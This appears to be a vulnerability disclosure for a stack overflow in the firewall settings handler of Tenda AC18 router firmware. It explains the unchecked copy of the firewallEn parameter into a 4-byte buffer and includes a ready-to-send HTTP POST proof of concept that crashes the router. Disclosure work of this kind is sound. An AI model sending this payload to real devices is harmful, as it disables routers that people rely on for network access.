

# Tenda Vulnerability

Vendor: Tenda

Product: AC18

Version: V15.03.05.19_multi

Type: Stack Overflow

Author: yanzhi Chen

Institution: chenyanzhi24@mails.ucas.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Tenda router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In `formSetFirewallCfg` function, `firewallEn` is directly passed by the attacker,  and its value will be assigned to the `src` variable. The `Value` variable is the length of the `src` variable. If the length of the `src` variable is greater than 3, the value of the `src` variable will be directly assigned to the `dest` variable, which is only 4 bytes in size. If this part of the data is too long, it will cause the stack overflow,so we can control the `firewallEn` to crash the server.




**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part. 


## PoC

We set `firewallEn` as **aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa....** , and the router will crash, such as:


```http
POST /goform/SetFirewallCfg HTTP/1.1
Host: 192.168.0.10
Content-Length: 15
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.10
Referer: http://192.168.0.10/firewall.html?random=0.12909601278519545&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=3bb3f04a31ad53628030a740f2055ad2umu1qw
Connection: close

firewallEn=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


## Result

The target router crashes and cannot provide services correctly and persistently.
